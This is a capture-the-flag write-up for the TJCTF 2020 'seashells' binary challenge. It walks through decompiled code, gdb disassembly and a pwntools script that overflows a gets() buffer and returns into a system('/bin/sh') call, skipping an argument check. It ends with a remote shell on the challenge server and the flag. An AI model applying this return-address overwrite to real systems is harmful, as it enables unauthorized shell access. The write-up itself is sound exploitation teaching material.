

# Seashells



Yet another binary exploitation challenge. You can find the binary [here](seashells).

I decompiled it in [ghidra](https://ghidra-sre.org/) again, to have a look at the code.

```c
void shell(long param_1)
{
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}

undefined8 main(void)
{
  int iVar1;
  char local_12 [10];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to Sally\'s Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(local_12);
  iVar1 = strcasecmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("sorry, we are out of stock");
  }
  else {
    puts("why are you even here?");
  }
  return 0;
}
```

Looks we have to overwrite the return address on the stack to return to the `shell` function. Because `gets` is used, we should have no trouble doing this.

I quickly found the padding needed to get to the return address using gdb, and I started making my script.

Decompiling the assembly code of `shell` in ghidra looks like this:

```
(gdb) disas shell
Dump of assembler code for function shell:
   0x00000000004006c7 <+0>:	push   %rbp
   0x00000000004006c8 <+1>:	mov    %rsp,%rbp
   0x00000000004006cb <+4>:	sub    $0x10,%rsp
   0x00000000004006cf <+8>:	mov    %rdi,-0x8(%rbp)
   0x00000000004006d3 <+12>:	movabs $0xdeadcafebabebeef,%rax
   0x00000000004006dd <+22>:	cmp    %rax,-0x8(%rbp)
   0x00000000004006e1 <+26>:	jne    0x4006ef <shell+40>
   0x00000000004006e3 <+28>:	lea    0x13e(%rip),%rdi        # 0x400828
   0x00000000004006ea <+35>:	callq  0x4005c0 <system@plt>
   0x00000000004006ef <+40>:	nop
   0x00000000004006f0 <+41>:	leaveq
   0x00000000004006f1 <+42>:	retq   
End of assembler dump.
(gdb)
```

I copied the hexadecimal address of the start of `shell` and put it in my script.

```python
from pwn import *

if 'rem' in sys.argv:
    r = remote('p1.tjctf.org', 8009)
elif 'file' in sys.argv:
    class getPayload:
        def __init__(self):
            self.payload = b''
        def send(self, oper):
            self.payload += oper
        def interactive(self):
            file = open('payload', 'wb')
            file.write(self.payload)
            file.close()
    r = getPayload()
else:
    r = process('./seashells')

padding = b'B9alaLbY4ealaLbY4e'

r.send(padding)
r.send(p64(0x4006c7))
r.send(b'\n')

r.interactive()
```

Problem is, how do we add the operand if the function? It has to be equal to `0xdeadcafebabebeef`, or else you won't get a shell!

I made my own [test script](test.c) with the call to the function in main to see how operands are handled.

Code:

```c
void shell(long param_1) {
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}

int main() {
  shell(-0x2152350145414111);
}
```

Then I compiled the program. As you can see, all it does is launch a shell. That's exactly what we want to do on the server.

```
jordan@notyourcomputer:~/CTF-writeups/TJCTF2020/seashells$ ./test
$ ls
chall.png  payload  README.md  seashells  sol.py  test	test.c
$ cat test.c
void shell(long param_1) {
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}

int main() {
  shell(-0x2152350145414111);
}
$ exit
jordan@notyourcomputer:~/CTF-writeups/TJCTF2020/seashells$
```

Here's the decompilation of `main` from gdb:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000001166 <+0>:	push   %rbp   0x0000000000001139 <+4>:	sub    $0x10,%rsp
   0x0000000000001167 <+1>:	mov    %rsp,%rbp
   0x000000000000116a <+4>:	movabs $0xdeadcafebabebeef,%rdi
   0x0000000000001174 <+14>:	callq  0x1135 <shell>
   0x0000000000001179 <+19>:	mov    $0x0,%eax
   0x000000000000117e <+24>:	pop    %rbp
   0x000000000000117f <+25>:	retq   
End of assembler dump.
```

As you can see, in `main` the operand is stored in `rdi` before the function is executed. We only have control over the stack, not any registers, so it seems like we hit a dead end. It is not possible to overwrite the parameter of this function because of this.

I soon realized that I don't have to jump to a beginning of a function, I can jump to wherever I want!

Let's look at `shell` again in the seashells binary:

```
Dump of assembler code for function shell:
   0x00000000004006c7 <+0>:    push   %rbp
   0x00000000004006c8 <+1>:    mov    %rsp,%rbp
   0x00000000004006cb <+4>:	sub    $0x10,%rsp
```

The first two instructions are at the start of every function, and we don't need to worry about that. 16 bytes are also reserved on that stack, and that's not too important right now.

```
0x00000000004006cf <+8>:	mov    %rdi,-0x8(%rbp)
0x00000000004006d3 <+12>:	movabs $0xdeadcafebabebeef,%rax
0x00000000004006dd <+22>:	cmp    %rax,-0x8(%rbp)
0x00000000004006e1 <+26>:	jne    0x4006ef <shell+40>
```

There is the code that compares the argument with `0xdeadcafebabebeef`. We can't control the argument, so is there anyway to skip this?

```
0x00000000004006e3 <+28>:	lea    0x13e(%rip),%rdi        # 0x400828
0x00000000004006ea <+35>:	callq  0x4005c0 <system@plt>
```

And here's the shellcode! We can just simply jump to this address instead, that would make it much more simple.

So, in our python script, instead of writing the address of `shell` (0x4006c7), we can write the address of the actual shellcode! (0x4006e3) That makes much more sense!


```python
padding = b'B9alaLbY4ealaLbY4e'

r.send(padding)
r.send(p64(0x4006e3))
r.send(b'\n')

r.interactive()
```

```
$ py sol.py rem
[+] Opening connection to p1.tjctf.org on port 8009: Done
[*] Switching to interactive mode
Welcome to Sally's Seashore Shell Shop
Would you like a shell?
why are you even here?
$ ls
bin
flag.txt
lib
lib64
seashells
$ cat flag.txt
tjctf{she_s3lls_se4_sh3ll5}
$
```

Flag: `tjctf{she_s3lls_se4_sh3ll5}`
